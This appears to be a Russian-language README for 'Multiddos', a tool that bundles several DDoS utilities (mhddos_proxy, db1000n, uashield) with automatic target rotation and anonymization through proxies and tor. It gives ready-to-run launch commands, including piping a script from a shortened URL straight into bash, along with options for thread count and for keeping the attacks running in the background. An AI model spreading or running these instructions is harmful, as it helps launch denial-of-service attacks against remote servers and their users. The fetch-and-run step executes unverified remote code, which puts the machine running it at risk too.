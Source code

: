 # **Multiddos - скрипт объединяющий в себе несколько утилит для ddos**

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

### **Особености**:
* Объединяет в себе несколько утилит для ддоса, и для мониторинга (gotop, vnstat)
* Полностью автоматизирован. Автоматическое обновление программ, автоматическая настройка, автоматическая смена целей.
* Запуск одной простой командой.
* При закрытии терминала или разрыве ssh сессии программы не вылетают, а продолжают работать в фоне. В любой момент multiddos можно снова вывести на экран.

### **На данный момент скрипт поддерживает:**
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

### **Пояснение к выбору конкретных утилит**
<details>
<summary>развернуть</summary>
 
Мы хотели собрать утилиты, которые:
* Можно полностью автоматизировать
* Имеют хорошую эффективность и поддерживаются разработчиками
* Умеют работать через прокси

Полностью данным требованиям соответствует только mhddos_proxy. DB1000N не умеет работать через прокси. Поэтому в bash-скрипте он запускается через tor. В docker-версии мы отключили DB1000N, так как работа tor там под вопросом. Это сделано для того, чтобы исключить случаи когда пользователь случайно запускает db1000n и "палит" свой IP. А это возможно когда он запускает docker-версию multiddos и у него не включен VPN.
 
</details>

---
# **Multiddos для docker. Рекомендуется.** (Win, Mac, Linux)

### **Запуск**

1. Скачать и установить [Docker](https://docs.docker.com/get-docker/)

2. Запустить multiddos в docker:
```
docker run -it --rm --log-driver none --name multidd --pull always karboduck/multidd
```
* Альтернативный запуск для слабых систем. Будет использоваться только 1 ядро на 90% (использовать если процессор забивается на 100% и система тормозит) <details> docker run --cpus 0.9 -it --rm --log-driver none --name multidd --pull always karboduck/multidd

### **Остановка**
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `docker stop multidd`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
docker attach multidd
```

---
# **Multiddos для bash** (Linux, WSL2)

### **Запуск**

```
curl -L tiny.one/multiddos | bash && tmux a
```

### **Запуск в фоне**
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но программы не будут выводиться из фона. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы обратно подключиться к сессии tmux (вывести программы на экран) прочитайте раздел **Управление Tmux**.
 
</details>

### **Остановка**:
1. Нажать в окне несколько раз подряд `Ctrl + C`
2. В другом терминале запустить команду `pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py`
3. Перезагрузить операционную систему

### **Подключиться обратно, если скрипт работает в фоне**
```
tmux a
```
---
# **Управление Tmux**
<details>
  <summary>развернуть</summary>

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`

* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`

* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`
</details>

# **Выбор конфигурации**

<details>
  <summary>развернуть</summary>
  
Multiddos запускается по умолчанию с gotop, multiddos и db1000n. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop или db1000n. Или добавить в нее утилиты: uashield, vnstat, matrix.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

`-d` убрать db1000n

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`+m` добавить matrix (эффект матрицы)

Пример команды (убрать db1000n и добавить matrix):

```
curl -LO tiny.one/multiddos && bash multiddos -d +m && tmux a
```

Для изменения кол-ва потоков используйте `-t`

```
curl -LO tiny.one/multiddos && bash multiddos -t 1000 && tmux a
```

</details>

# **Решение проблем**
<details>
  <summary>развернуть</summary>

1.
Основная проблема - перебои в работе сетевого адаптера. Особенно часто проявляется при запуске скрипта на виртуальной машине. Ддос пакеты влияют не только на удаленные сервера, но и на локальное железо.

Внешние проявления могут самыми разнообразными, нелогичными и на первый взгляд не связанными с сетью. Но, если скрипт не запускается, просто перезапустите систему и попробуйте снова. Едва ли не в 80% случаев это решает проблемы.

2.
Вылетает db1000n или uashield.

Это либо проявление проблем с сетью, смотрите пункт выше. Либо сбой самих программ, с чем мы ничего поделать не можем. Хорошая новость заключается в том, что 95% полезной работы выполняет mhddos_proxy. Пока он не вылетает, все идет по плану. 
 
</details>